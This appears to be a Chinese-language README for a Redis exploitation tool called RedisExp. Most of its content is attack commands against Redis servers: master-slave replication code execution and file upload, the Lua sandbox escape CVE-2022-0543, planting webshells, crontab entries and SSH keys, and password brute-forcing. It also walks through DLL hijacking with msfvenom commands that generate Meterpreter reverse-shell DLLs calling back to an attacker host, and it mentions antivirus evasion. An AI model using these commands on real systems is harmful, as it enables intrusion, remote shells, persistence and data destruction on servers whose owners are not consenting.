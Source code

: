 ## Redis 漏洞利用工具

快捷使用：`RedisExp`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

2022/05/23 23:36:54 [+]  -h 靓仔查看下帮助吧
Example:
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

Linux 写计划任务:
RedisExp.exe -rhost 192.168.211.131 -crontab

Linux 写 SSH 公钥:
RedisExp.exe -rhost 192.168.211.131 -ssh

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

```

```
cmd
├── exp.dll        默认导入的Windows Redis模块
├── exp.so         导入的Linux Redis模块
├── main.go        编译攻击主程序
├── pass.txt       爆破字典

```



### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------



### 主从复制漏洞

#### 命令执行

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````

![](images/slave_Rce.png)

#### 文件上传

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/slave_Upload.png)

#### Windows 劫持 dbghelp.dll

https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/#toc-heading-22

1、使用 msf 生成 dll ，（cs 需要自己写一个调用 rundll32 .exe的dll，不能直接使用）

```
# 64 位

msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=192.168.211.130 LPORT=5555 > 64.dll

# 32 位
msfvenom -p windows/meterpreter/reverse_tcp -ax86 -f dll LHOST=ip LPORT=端口 > reverse_32bit.dll
```

2、生成项目DLL后使用Koppeling项目中的Python3脚本来链接到转发DLL: https://github.com/monoxgas/Koppeling

```
python -m pip install pefile

python .\PyClone.py 64.dll C:\windows\system32\dbghelp.dll -o dbghelp.dll
```

3、利用主从复制上传制作好的  dbghelp.dll

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dbghelp.dll -lfile dbghelp.dll -upload
```

4、执行 bgsave 成功上线

```
RedisExp.exe -rhost 192.168.211.134 -cli

bgsave
```

5、dll 需要免杀，好像不太稳定，自行在本地测试再利用。



### RDB备份文件利用

#### 写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```

![](images/webshell.png)



### Linux写计划任务

没搭建环境测试

```
RedisExp.exe -rhost 192.168.211.133 -crontab
```

![](images/crontab.png)



### Linux写SSH公钥

没搭建环境测试

```
RedisExp.exe -rhost 192.168.211.133 -ssh
```

![](images/ssh.png)



### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![](images/lua.png)


### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```

![](images/pass.png)


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/

 

